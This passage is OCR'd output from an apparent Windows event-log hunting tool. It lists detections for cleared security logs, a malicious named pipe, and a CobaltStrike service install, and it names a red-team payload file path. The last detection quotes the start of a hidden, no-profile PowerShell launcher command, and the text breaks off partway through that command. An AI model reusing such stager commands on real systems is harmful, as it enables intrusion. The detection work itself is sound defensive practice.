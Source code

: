 	  │                     │                    │          │           │             │                                │ red-team-master\atomics\T1086\   │                    │
	  │                     │                    │          │           │             │                                │ payloads\test.xsl                │                    │
	  └─────────────────────┴────────────────────┴──────────┴───────────┴─────────────┴────────────────────────────────┴──────────────────────────────────┴────────────────────┘

	  [+] Group: Log Tampering
	  ┌─────────────────────┬───────────────────────────────┬──────────┬───────────┬────────────────────────────────┬───────────────┐
	  │      timestamp      │          detections           │ Event ID │ Record ID │            Computer            │     User      │
	  ├─────────────────────┼───────────────────────────────┼──────────┼───────────┼────────────────────────────────┼───────────────┤
	  │ 2019-01-20 07:00:50 │ ‣ Security Audit Logs Cleared │ 1102     │ 32853     │ WIN-77LTAPHIQ1R.example.corp   │ Administrator │
	  └─────────────────────┴───────────────────────────────┴──────────┴───────────┴────────────────────────────────┴───────────────┘

	  [+] Group: Sigma
	  ┌─────────────────────┬────────────────────────────────┬───────┬────────────────────────────────┬──────────┬───────────┬──────────────────────────┬──────────────────────────────────┐
	  │      timestamp      │           detections           │ count │     Event.System.Provider      │ Event ID │ Record ID │         Computer         │            Event Data            │
	  ├─────────────────────┼────────────────────────────────┼───────┼────────────────────────────────┼──────────┼───────────┼──────────────────────────┼──────────────────────────────────┤
	  │ 2019-04-29 20:59:14 │ ‣ Malicious Named Pipe         │ 1     │ Microsoft-Windows-Sysmon       │ 18       │ 8046      │ IEWIN7                   │ ---                              │
	  │                     │                                │       │                                │          │           │                          │ Image: System                    │
	  │                     │                                │       │                                │          │           │                          │ PipeName: "\\46a676ab7f179e511   │
	  │                     │                                │       │                                │          │           │                          │ e30dd2dc41bd388"                 │
	  │                     │                                │       │                                │          │           │                          │ ProcessGuid: 365ABB72-D9C4-5CC   │
	  │                     │                                │       │                                │          │           │                          │ 7-0000-0010EA030000              │
	  │                     │                                │       │                                │          │           │                          │ ProcessId: 4                     │
	  │                     │                                │       │                                │          │           │                          │ RuleName: ""                     │
	  │                     │                                │       │                                │          │           │                          │ UtcTime: "2019-04-29 20:59:14.   │
	  │                     │                                │       │                                │          │           │                          │ 430"                             │
	  ├─────────────────────┼────────────────────────────────┼───────┼────────────────────────────────┼──────────┼───────────┼──────────────────────────┼──────────────────────────────────┤
	  │ 2019-04-30 20:26:51 │ ‣ CobaltStrike Service         │ 1     │ Microsoft-Windows-Sysmon       │ 13       │ 9806      │ IEWIN7                   │ ---                              │
	  │                     │ Installations in Registry      │       │                                │          │           │                          │ Details: "%%COMSPEC%% /b /c st   │
	  │                     │                                │       │                                │          │           │                          │ art /b /min powershell.exe -no   │
	  │                     │                                │       │                                │          │           │                          │ p -w hidden -noni -c \"if([Int   │
	  │                     │                                │       │                                │          │           │                          │ Ptr]::Size -eq 4){$b='powershe   │
	  │                     │                                │       │                                │          │           │                          │ ll.exe'}else{$b=$env:windir+'\   │
	  │                     │                                │       │                                │          │           │                          │ \syswow64\\WindowsPowerShell\\   │
	  │                     │                                │       │                                │          │           │                          │ v1.0\\powershell.exe'};$s=New-   │